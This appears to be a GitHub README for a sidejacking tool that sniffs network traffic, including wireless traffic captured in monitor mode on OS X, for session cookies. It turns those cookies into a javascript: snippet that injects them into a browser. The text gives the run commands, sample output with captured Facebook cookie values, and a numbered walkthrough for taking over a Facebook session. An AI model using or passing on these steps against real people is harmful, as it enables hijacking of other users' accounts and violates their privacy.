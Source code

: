 # A Simple sidejacking tool, using javascript cookie injection.

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

It comes accompanied by a script: `OSx10.6_monitorMode.py`, that is able to use the `airport sniff` feature present in OS X 10.6+, allowing the wireless device to be put in monitor mode. We are, thus, able to retrieve any cookie sent on the chosen wireless channel.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-facebook`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -facebook`

If you wish to run `cookieJsInjection` on a wireless device, and you are currently running OS X 10.6+, use `OSx10.6_monitorMode.py`:

    hybrid:py-cookieJsInjection diogomonica$ sudo python OSx10.6_monitorMode.py 9 -facebook
    [*] Starting scan on channel 9
    Capturing 802.11 frames on en1.
    # Found cookie for facebook user XXXXXXXX:
    c_user = XXXXXXXXX
    presence = DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF294237772227WMblcMshfPBbloMbvtMctP294232437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP294237495196QB1259338588ADolA-1BflA_5b_5dBexpZ295237551044QQBalAD1606900057ADiA0QQQQ
    xs = 24e156ef2ddf6d6911422b0a9825825f
    datr = 4VToPPIw60lKSa3qrFSFrlm1
    lu = ZBj64Z92UpiasQNnWbkzW32w
    sct = 1273830123
    x-referer = http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488456769644%3Fnotif_t%3Dfeed_comment
    [*] Javascript Injection code:
    javascript:void(document.cookie="c_user=XXXXXXXXX");void(document.cookie="wd=1280x840");void(document.cookie="e=n");void(document.cookie="presence=DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF29432172227WMblcMsndPBbloMbvtMctP2943212437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP29443432196QB1259338588ADolA-1BflA_5b_5dBexpP2942321553944QQBalAD1605400057ADiA0QQQQ");void(document.cookie="xs=54e156e028df6d6916232b0a9825825e");void(document.cookie="datr=1VTuTPOwDSg6xl3qrQFDrlm4");void(document.cookie="lu=TAj64Z02UpiSdFQNnWbkz2w");void(document.cookie="sct=1294230653");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488432169644%3Fnotif_t%3Dfeed_comment");

Remember to select the appropriate channel (in the example above, channel 9 was used).

# Example of Facebook sidejacking


1 - Run cookieJsInjection and wait for cookies to appear

    glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -facebook
    ... 
    javascript:void(document.cookie="c_user=XXXXXXXXXX");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1LXXXXXXXXA5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
#Background

More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking